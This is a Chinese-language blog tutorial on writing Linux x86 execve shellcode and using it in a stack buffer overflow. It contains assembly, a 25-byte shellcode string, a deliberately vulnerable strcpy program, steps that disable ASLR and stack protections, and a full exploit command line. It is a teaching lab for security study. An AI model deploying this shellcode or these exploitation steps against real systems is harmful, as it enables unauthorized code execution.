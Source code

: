 ```yaml
---
title: Linux 基本缓冲区溢出 shellcode 编写
date: 2016-3-10 18:56:46
tags: 
- 缓冲区溢出 
- ROP
- CVE
categories: exploit 编写
---
```

有关shellcode定义不是很了解的请参见 [shellcode 与 exploit](http://huirong.github.io/2016/04/16/shellcodeAndExploit/)
<!-- more -->
# 1 shellcode 分析
## 1.1 execve()系统调用
最基本的shellcode就是通过调用 execve() 新开一个shell。
C语言程序：
```
#include <stdio.h>
#include <unistd.h>

int main(int argc, char** argv){
    char* name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);

    return 0;
}
```
编译：gcc -o shell shell.c
运行：./shell
![](https://ww4.sinaimg.cn/large/005CA6ZCjw1f9zy112hgwj30jg0443zh.jpg)
新打开了一个shell。

## 1.2 分析
execve(name[0], name, NULL);
- name[0]：/bin/sh 的地址
- name：以NULL结束的/bin/sh的地址的地址
- NULL

Linux 系统调用的参数一般存放在 ebx,ecx,edx,esi,edi 寄存器中。
因此参数分布存放情况
- ebx: "/bin/sh" 的地址,且 "/bin/sh" 后跟着 NULL
- ecx: "/bin/sh" 的地址的地址，且 /bin/sh 的地址后跟着NULL
- edx: NULL
- eax: 系统调用号
    execve()的系统调用号是 “11” 或 “0xb”

# 2 编写 exploit 
## 2.1 分析
完成 execve() 系统调用，转化为汇编需要以下几步：
1. 将以NULL结尾的字符串"/bin//sh" <font color="orange">push</font> 进栈
2. 在内存中有"/bin//sh"的地址，其后是一个 unsigned long 型的NULL值
3. 将0xb拷贝到寄存器EAX中(execve的系统调用号是0xb)
4. 将"/bin//sh"的地址 <font color="orange">mov</font> 到寄存器EBX中
5. 将"/bin//sh"地址的地址 <font color="orange">mov</font> 到寄存器ECX中
6. 将 NULL <font color="orange">mov</font> 到寄存器EDX中
7. 执行中断指令int $0x80

<font color="red">Tips：需要将 “/bin/sh” 以 4 byte 为单位分割成两部分 “/bin” 、”/sh”，但是 “/sh” 只有 3 byte，最后 1 byte 就会自动填充成 NULL，这是不允许的。因此在最前面增加一个 /，即 “//sh”，最后的字符串为 “/bin//sh”。</font>

## 2.2 汇编
对应的汇编程序 shellcode_execve.asm
```
section .text
global _start
_start:
    xor eax,eax
    push eax               ;NULL入栈
    push 0x68732f2f    ;0x68732f2f 即为//sh 的ASCII编码,注意大小端，将//sh入栈
    push 0x6e69622f    ;0x6e69622f 即为/bin 的ASCII编码，将 /bin 入栈
    mov ebx,esp          ;此时 esp 指向栈顶，即保存 以NULL结尾的"/bin//sh"，将此地址保存到 ebx 中
    push eax               ; NULL 入栈
    push ebx               ;以NULL结尾的"/bin//sh" 的地址入栈
    mov ecx,esp          ;"/bin//sh" 的地址的地址放入ecx，且 /bin//sh 的地址后跟着NULL
    xor edx,edx           ; NULL 放置到 edx
    mov al,0xb            ; execve()系统调用号 11 存放到 eax 中
    int 0x80
```

编译：nasm -f elf shellcode_execve.asm -o shellcode_execve.o
连接：ld -o shellcode_execve shellcode_execve.o 
运行：./shellcode_execve 

![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f9zytwty6yj30k3020gmf.jpg)

## 2.3 提出二进制码
使用 objdump 提取二进制码：

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f9zywv42rjj30jg09kq5w.jpg)

exploit 为 
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
```

# 3 编写shellcode
有漏洞的程序 level.c
```
#include <stdio.h>
#include <string.h>

void function(char* a){
    char buf[128];
    strcpy(buf,a);
}

int main(int argc, char** argv){
    if(argc >=2 ){
        function(argv[1]);
        printf("%s\n",argv[1]);
    }

    return 0;
}
```

通过调试找到buf起始地址和返回地址，并计算偏移 offset（此过程过程略去不表）
则 shellcode 构造如下： exploit + nop*(offset - strlen(exploit)) + exploit起始地址（即buf起始地址）
最终的shellcode如下：
```
$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*115+"\x80\xef\xff\xbf"')
```

- 关闭地址随机化：echo 0 > /proc/sys/kernel/randomize_va_space
- 编译（关掉canary和DEP）：gcc -o level level.c -fno-stack-protector -z execstack
- 运行: 
```
./level $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*115+"\x80\xef\xff\xbf"')
```

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f9zz9tuh07j30k8069q4o.jpg)

# 4 参考文献
- [linux下shellcode编写入门](http://www.cnblogs.com/Lamboy/archive/2012/07/31/2616103.html)
- [Linux下本地exploit编写shellcode之一缓冲区溢出|转](http://blog.dutsec.cn/index.php/archives/7/)
- [如何编写并编译一个shellcode(linux)](http://fcinbj.blog.51cto.com/911909/473992)